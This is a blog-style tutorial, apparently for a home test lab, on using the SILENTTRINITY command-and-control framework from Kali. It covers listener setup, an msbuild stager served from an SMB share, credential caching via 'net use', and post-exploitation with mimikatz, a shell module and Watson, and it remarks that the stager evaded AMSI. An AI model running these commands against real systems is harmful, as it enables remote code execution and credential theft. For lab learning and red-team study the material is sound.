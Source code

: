 ```yaml
---
description: Using Kali as a C2 Server
---
```


# SILENTTRINITY

SILENTTRINITY is a tool made by [byt3bl33d3r](https://twitter.com/byt3bl33d3r) which uses Ironpython for awesome C2 and post exploitation. I'll refer to it as ST in this article.

{% embed url="https://github.com/byt3bl33d3r/SILENTTRINITY" %}

## Installation

Install the tool and its dependencies, then start it. I've included the manual installation of the latest and greatest [impacket ](https://github.com/SecureAuthCorp/impacket)here too.

{% code-tabs %}
{% code-tabs-item title="hacker@kali" %}
```text
#Install deps
cd /opt
git clone https://github.com/SecureAuthCorp/impacket.git 
cd impacket
pip install -r requirements.txt
python setup.py install

#Install ST
apt install python3.7 python3.7-dev python3-pip
git clone https://github.com/byt3bl33d3r/SILENTTRINITY
cd SILENTTRINITY/Server
python3.7 -m pip install -r requirements.txt

#Start it up
python3.7 st.py
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![Ready to go](../.gitbook/assets/image%20%2831%29.png)

## Listening

Proceed with selecting a listener, binding it to an IP + port and starting it. And btw I set my BindIP to a different subnet because I am connected to my test lab using VPN. Nothing magic going on.

{% code-tabs %}
{% code-tabs-item title="hacker@st" %}
```text
listeners
list
use http
options
set BindIP 10.0.8.6
start
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image%20%2856%29.png)

## Staging

Proceed to generate a stager. It will end up in the `/opt/SILENTTRINITY/Server` directory.

{% code-tabs %}
{% code-tabs-item title="hacker@st" %}
```text
stagers
list
use msbuild
generate http
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image%20%2842%29.png)

![](../.gitbook/assets/image%20%2811%29.png)

## Execution

Now, find an appropriate way of downloading and triggering the stager. As per November 2018, the msbuild stager payloads still haven't triggered AMSI on Windows 10 1803.

### Serving the payload

A neat trick is using an SMB server for serving the payload. Download and trigger it it with `msbuild` and the UNC path to your SMB server as argument.

First create a share folder and then start the SMB server from impacket.

{% code-tabs %}
{% code-tabs-item title="hacker@kali" %}
```text
mkdir /opt/SMB
smbserver.py SMB /opt/SMB -username hacker -password hacker -smb2support -ip 10.0.8.6
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image%20%281%29.png)

### Triggering the payload

Now we try to trigger the payload with msbuild, but it fails because we aren't authenticated.

{% code-tabs %}
{% code-tabs-item title="victim@target" %}
```text
cp /opt/SILENTTRINITY/Server/msbuild.xml /opt/SMB/msbuild.xml
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe \\10.0.8.6\SMB\msbuild.xml
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image%20%2834%29.png)

### Caching credentials

So why did we specify credentials then? On Windows 10 you can't use SMB unauthenticated by default. And as far as I know there isn't a way to give msbuild credentials directly. So I fiddled around and find a little trick to cache some credentials for my SMB server on the host.  As you see I use hacker/hacker for authentication. Very secure of course. On the target, trigger an authenticated `net use` command. This should try to access the SMB share with the specified credentials, and therefore cache them locally on the target. From an opsec perspective this isn’t ideal, so if you have suggestions please reach out.

{% code-tabs %}
{% code-tabs-item title="victim@target" %}
```text
net use \\10.0.8.6\smb /user:hacker hacker
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image%20%2832%29.png)

We see that we get a successful authentication and a NetNTLMv2 hash instantly. So now with cached credentials on the target, let's try to trigger our payload again.

![](../.gitbook/assets/image%20%2812%29.png)

Voila! Something started happening. Let's check back in ST.

![](../.gitbook/assets/image%20%2836%29.png)

Like sweet magic, we got a session. The authentication reuses the credentials that were cached.

## Modules

Now we list the session we just acquired. Because I triggered the payload from an elevated shell, we have a session with elevated privileges. That allows us to do things like dump credentials and other kinds of post exploitation fun.

{% code-tabs %}
{% code-tabs-item title="hacker@st" %}
```text
sessions
list
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image%20%2841%29.png)

So let's explore some of the post exploitation modules that ST has to offer. As you can see, ST has a lot of built in modules already and by the looks of it, there are more to come.

![](../.gitbook/assets/image%20%282%29.png)

Let's select the `mimikatz`  module and run it towards our session. Word of notice here, you have to copy the GUID from the session list so you have it ready. You can alternatively use `run all` to run it on all session, if you have several sessions.

{% code-tabs %}
{% code-tabs-item title="hacker@st" %}
```text
modules
list
use mimikatz
options
run GUID
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image%20%2827%29.png)

Running the shell module for good measure

{% code-tabs %}
{% code-tabs-item title="hacker@st" %}
```text
modules
use shell
options
set Command whoami
run GUID
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image%20%2847%29.png)

Trying the execute-assembly module with [Watson](https://github.com/rasta-mouse/Watson).  Actually noticed at this point that ST starts autocompleting the GUID for the session I'm working on. Right arrow on the keyboard to complete it.

{% code-tabs %}
{% code-tabs-item title="hacker@st" %}
```text
modules
use execute-assembly
options
set Assembly /opt/Watson.exe
run GUID
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/image%20%283%29.png)

![](../.gitbook/assets/image%20%287%29.png)

Didn't find anything on my patched Windows 10 1803 VM, but that's ok.

Thanks [@byt3bl33d3r](https://twitter.com/byt3bl33d3r) for an awesome C2 platform.

